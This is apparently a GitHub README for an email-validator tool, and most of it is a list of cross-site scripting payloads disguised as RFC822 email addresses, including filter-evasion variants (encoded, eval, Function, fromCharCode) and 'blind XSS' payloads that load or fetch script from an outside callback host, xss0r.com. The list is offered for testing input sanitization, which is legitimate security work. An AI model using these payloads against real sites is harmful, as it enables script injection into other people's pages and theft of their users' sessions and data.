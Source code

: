# RFC822 Email Validator
A sleek, offline, browser-based tool for validating email addresses against the RFC822 standard. Built with HTML, CSS, and JavaScript — perfect for quick manual checks, demos, or client-side validation testing.

# Security Testing
Use this tool to test how email input fields handle potentially dangerous strings. Example payloads:
```
"><svg/onload=confirm(1337)>"@x.y
"><svg/onload=alert`XSS!`>"@x.y
"><svg><script>alert(48)</script>"@x.y
"><svg><title>1</title><script>alert(47)</script>"@x.y
"><svg/onload=eval('confirm(37)')>"@x.y
"><svg/onload=confirm?.(33)>"@x.y
"><math><mtext></title><script>confirm(31)</script>"@x.y
"><svg/onload=(confirm)(29)>"@x.y
"><script>setTimeout(()=>confirm(22))</script>"@x.y
"><svg/onload=Function('confirm(20)')()>"@x.y
"><svg/onload=eval(atob('Y29uZmlybSgxOSk='))>"@x.y
"><svg/onload=confirm(String.fromCharCode(49,56))>"@x.y
"><svg><foreignObject><script>confirm(15)</script></foreignObject></svg>"@x.y
"><svg/onload=alert(8)>"@x.y
"><math><mtext></title><script>confirm(6)</script>"@x.y
"><svg><script>confirm(4)</script>"@x.y
"><script>alert(3)</script>"@x.y
"><svg/onload=confirm(1)>"@x.y
```
Test Blind XSS payloads with RFC822 Email Validator for secure input validation. Example payloads:
```
%22%27%3E%3Cscript%3Ealert%281234567%29%3C%2Fscript%3E@x.y
ibro%27%22%3E%3Cscript%20src%3Dhttps%3A%2F%2Fxss0r.com%2Fc%2Fbrocode%3E%3C%2Fscript%3E@xss0r.com
"'><svg/onload=fetch('https://xss0r.com/c/brocode')>"@x.y
"'><svg><script>fetch('https://xss0r.com/c/brocode')</script></svg>"@x.y
"'><script>fetch('https://xss0r.com/c/brocode')</script>"@x.y
```

Great for detecting weaknesses in forms, input sanitization, or frontend validation logic.

![RFC822 Email Validator](https://github.com/0xlipon/RFC822-Email-Validator/blob/main/RFC822.png?raw=true)

# Inspired By
Inspired by `@coffinxp/RFC822-Email-Validator` — now redefined for the web.

